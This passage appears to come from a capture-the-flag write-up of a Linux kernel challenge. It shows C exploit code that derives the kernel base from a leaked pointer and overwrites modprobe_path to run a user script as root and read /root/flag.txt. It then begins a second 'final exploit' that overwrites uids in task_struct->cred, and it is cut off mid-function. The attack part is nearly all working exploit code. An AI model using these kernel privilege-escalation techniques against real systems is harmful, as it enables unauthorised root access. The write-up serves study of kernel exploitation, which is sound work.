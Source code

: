 ```c

int main(int argc, char *argv[]){
    uint64_t ptr = get_leak(); // tty_dev_attr_group

    uint64_t kbase = ptr - 0x1074ec0;
    uint64_t modprobe_path = kbase + 0x164ec60;

    printf("kernel base: %p\n", kbase);
    printf("modprobe_path: %p\n", modprobe_path);

    write_str(modprobe_path, "/home/user/to_exec.sh");

    system("/home/user/invalid");
    system("cat /root/flag.txt");
}
```
# Final exploits
## Overwriting uids in task_struct->cred
```c
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>

#define SYSCALL_NO 548

int fd = -1;

__attribute__((constructor)) void init(){
    mkfifo("/home/user/stdin_fifo", 0666);
    freopen("/home/user/stdin_fifo", "r+", stdin);
    fd = open("/home/user/stdin_fifo", O_RDWR);
}

int bytes_left(){
    int nbytes;
    ioctl(fd, FIONREAD, &nbytes);

    return nbytes;
}

int clear_stdin(){
    int size = bytes_left();

    char *buf = malloc(size);
    int ret = read(fd, buf, size);
    free(buf);

    return ret;
}

uint64_t read_ptr_stdin(){
    uint64_t ptr = 0;
    int n = bytes_left();
```